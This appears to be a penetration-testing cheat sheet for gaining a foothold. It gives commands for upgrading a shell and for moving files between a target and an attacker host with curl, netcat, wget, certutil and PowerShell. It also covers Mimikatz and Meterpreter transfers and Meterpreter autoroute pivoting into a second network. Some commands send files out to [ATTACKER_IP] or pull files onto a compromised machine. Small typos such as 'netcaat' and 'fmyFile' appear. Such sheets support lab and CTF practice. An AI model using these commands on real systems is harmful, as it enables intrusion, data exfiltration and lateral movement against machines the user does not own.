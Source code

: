 ```yaml
---
title: 4 - Foothold
---
```


# Spawn Better Shell

---

### PYTHON


 > 
 > **<font color=red>python3 -c 'import pty; pty.spawn("/bin/bash")';export TERM=xterm</font>**</br>
 > `Ctrl + Z`</br>
 > **<font color=red>stty raw -echo; fg</font>**</br>
 > Spawn a better shell (tab, history, ...).

# Extract File from Target

---

### CURL


 > 
 > **<font color=red>curl</font> \[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red> -F 'data=@</font>fmyFile<font color=red>'</font>**</br>
 > Send myFile to an netcaat listener.

# Upload File on Target

---

### NETCAT


 > 
 > **<font color=red>nc -l -p </font>\[ATTACKER_PORT\] <font color=red>\></font> newFile**</br>
 > Run on Target.

 > 
 > **<font color=red>nc -w -3</font> \[ATTACKER_IP\] \[ATTACKER PORT\] <font color=red>\<</font> myFile**</br>
 > Run on Attacker machine. Send a file on the target.

---

### PYTHON


 > 
 > **<font color=red>python3 -m http.server</font> \[ATTACKER_PORT\]**</br>
 > Run on attacker machine (at the file location).

 > 
 > **<font color=red>wget http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/myFile</font>**</br>
 > Get the file on a Linux target machine.

 > 
 > **<font color=red>certutil.exe -urlcache -f http://</font>\[ATTACKER_IP\]:\[ATTACKER_PORT\]<font color=red>/</font>myFile myFile**</br>
 > or</br>
 > **<font color=red>powershell -c wget "http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>" -outfile "</font>myFile<font color=red>"</font>**</br>
 > or</br>
 > **<font color=red>powershell -c "(new-object System.Net.WebClient).Downloadfile('http://</font>\[ATTACKER_IP\]<font color=red>:</font>\[ATTACKER_PORT\]<font color=red>/</font>myFile<font color=red>', '</font>myFile<font color=red>')"</font>**</br>
 > Get the file on a Windows target machine.

---

### MIMIKATZ


 > 
 > **<font color=red>upload</font> myFile**</br>
 > Transfer file to target.

---

### METERPRETER


 > 
 > **<font color=red>upload</font>**</br>
 > Upload a file or directory.

 > 
 > **<font color=red>download</font>**</br>
 > Download a file or directory.

# Pivoting

---

### METERPRETER

When we have a meterpreter shell on a machine that has access to another network, we can use it to gain access to the 2nd network.

 > 
 > **<font color=red>run autoroute -s</font> \[REMOTE_NETWORK\]<font color=red>/24</font>**</br>
 > Create a route via the host that we had access to.

 > 
 > **<font color=red>run autoroute -p</font>**</br>
 > Show added routes.
